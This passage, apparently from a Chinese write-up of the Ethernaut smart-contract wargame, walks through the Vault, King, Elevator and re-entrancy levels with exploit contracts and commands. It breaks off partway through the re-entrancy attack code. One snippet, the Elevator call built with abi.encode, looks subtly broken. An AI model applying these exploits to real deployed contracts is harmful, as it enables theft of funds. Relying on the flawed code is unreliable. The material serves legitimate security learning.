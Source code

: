 - 使用指令
web3.eth.getStorageAt(contract.address, 1, function(x, y) {alert(web3.utils.toAscii(y))});
来查看存储在区块链上的状态变量的值，从而获取password。
10.King
要求
- 一直当国王
漏洞
- transfer函数无法转账给没有receive或fallback函数的另一个智能合约
因为：未定义fallback或是receive的智能合約收到transfer传送的以太币会以exception处理。
因此我们只需要创建另一个智能合约，并且不定义receive和fallback函数，则原king合约就无法把钱转账给我们，从而就无法改变King的所有权。
攻略
- 新建合约B
- 用合约B来调用合约A
- .Elevator
要求
- 让电梯达到顶楼(即让top为true)
(做到这里的时候对if语句里的条件判断突然卡壳了，后面仔细思考了一下，building.isLastFloor返回值必须为false，整个语句才能判断为真。)
漏洞
- Building的owner是msg.sender
- 因此我们可以自己编写building合约来篡改isLastFloor返回的结果
- 告诫我们不要轻易地把一些重要权限分配给msg.sender
攻略
- 自己写个攻略合约
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;
/*
我明白问题了，当我们自己新建Building合约时，我们需要操作两次，第一次让isLastFloor的返回值为false，从而方便我们进入if判断；第二次我们要让isLastFloor返回值为true，从而更改top的值。
*/
contract Building{
  bool public flag = false;
  address public instance = 0x070b0f062e4EF0a495832a3173861CFb34A27731;
  function isLastFloor(uint) external returns(bool){
    //如何让flag值更改两次呢？
    if(flag == false){
      flag = true;
      return false ;
    }
      return true;
  }
  function hack() public{
  instance.call(abi.encode("goTo(uint256)",1));
  }
}
- 部署该合约，传入instance地址，调用goTo
- over

Re-entrancy
要求
- 偷光合约中的所有资产
漏洞
- withdraw函数里使用的转账方式是call，就可能被其他人转走调所有的资产
- 并且事务的确定是先将钱从账户A转账到另一个账户B中，再在账户A中扣处相应的资金。（即：先花钱，后记账的模式)
攻略
1. 创建一个新的合约，代码如下：
pragma solidity ^0.8.0;
interface ReEntrance {
function withdraw(uint256 _amount) external;
}
contract attack {
address Instance;
constructor(address _Instance) {Instance = _Instance;}
function hack(uint256 _amount) public {
ReEntrance(Instance).withdraw(_amount);